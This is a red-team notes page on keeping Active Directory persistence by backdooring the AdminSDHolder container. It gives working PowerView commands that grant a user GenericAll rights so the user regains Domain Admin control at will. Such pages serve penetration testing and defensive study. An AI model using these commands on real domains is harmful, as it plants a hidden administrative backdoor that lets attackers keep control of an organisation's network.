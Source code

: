 # Backdooring AdminSDHolder for Persistence

## AdminSDHolder

AdminSDHolder is a special AD container with some "default" security permissions that is used as a template on protected AD accounts and groups \(like Domain Admins and some other\) to prevent their accidental and unintended modifications.

Once you have agained Domain Admin privileges, `AdminSDHolder` container can be abused by backdooring it by giving your user `GenericAll` privileges, which in effectively makes that user a Domain Admin.

## Execution

Backdooring the AdminSDHolder container by adding an ACL that provides user `spotless` with `GenericAll` rights for `Domain Admins` group:

```csharp
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-21-53.png)

This is actually what happens to the container - the security ACLs get updated and spotless gets all the privileges:

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-24-32.png)

After 60+ minutes, the changes will propagate automatically, but if you want to force it \(if you are testing this in your labs\), you can do it via ldp.exe by Modifying DN like so:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-07-01.png)

Now, confirming that the user spotless has got `GenericAll` privileges against `Domain Admins` group:

```csharp
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-07-30.png)

We can now hop back to the Domain Admins any time we want to:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-12-38.png)

In fact, we do not even need to be part of DA group, we still have full access to the DC:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-19-14.png)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/" %}

{% embed url="https://adsecurity.org/?p=1906" %}

